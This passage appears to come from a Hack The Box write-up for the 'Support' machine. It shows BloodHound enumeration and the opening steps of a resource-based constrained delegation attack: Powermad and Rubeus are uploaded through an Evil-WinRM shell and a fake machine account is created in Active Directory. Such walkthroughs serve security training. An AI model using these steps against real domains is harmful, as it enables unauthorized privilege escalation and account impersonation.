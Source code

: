 Back on our local machine we will open bloodhound in a browser and simply drag the zip file in and drop it. Use the queries in the menu to enumerate the AD environment and discover relationships between accounts. 

![](api/images/DuBLFIbDdzDp/image.png)

Constrained Delegation Attack
-----------------------------

We notice that shared support accounts have generic all permission on the DC and support (which we own) has generic all on account operators. This means that we may be able to add a new computer object to the environment, generate a password hash, and request kerberos tickets that we can use for impersonating an administrator account. This type of attack is called Resource-based Constrained Delegation. More info can be found at this link: [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)

We will need a few tools to perform this attack.

```text-plain
git clone https://github.com/SecureAuthCorp/impacket.git
git clone https://github.com/Kevin-Robertson/Powermad.git
git clone https://github.com/GhostPack/Rubeus.git
```

Using the EvilWinRM shell that we have on the target upload powermad and rubeus.

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> upload /home/kali/Desktop/HTB/Tools/Powermad/Powermad.ps1 pm.ps1
Info: Uploading /home/kali/Desktop/HTB/Tools/Powermad/Powermad.ps1 to pm.ps1

*Evil-WinRM* PS C:\Users\support\Documents> upload /home/kali/Desktop/HTB/Tools/Ghostpack-CompiledBinaries/Rubeus.exe r.exe
Info: Uploading /home/kali/Desktop/HTB/Tools/Ghostpack-CompiledBinaries/Rubeus.exe to r.exe
```

Then import powermad and set the variables we will need.

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module ./pm.ps1
*Evil-WinRM* PS C:\Users\support\Documents> Set-variable -Name "FakePC" -Value "FAKE01"
*Evil-WinRM* PS C:\Users\support\Documents> Set-Variable -Name "targetComputer" -Value "DC"
```

Now we can use powermad to add the new fake computer object to AD.

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = FAKE01$
Verbose: [+] Distinguished Name = CN=FAKE01,CN=Computers,DC=support,DC=htb
[+] Machine account FAKE01 added
```
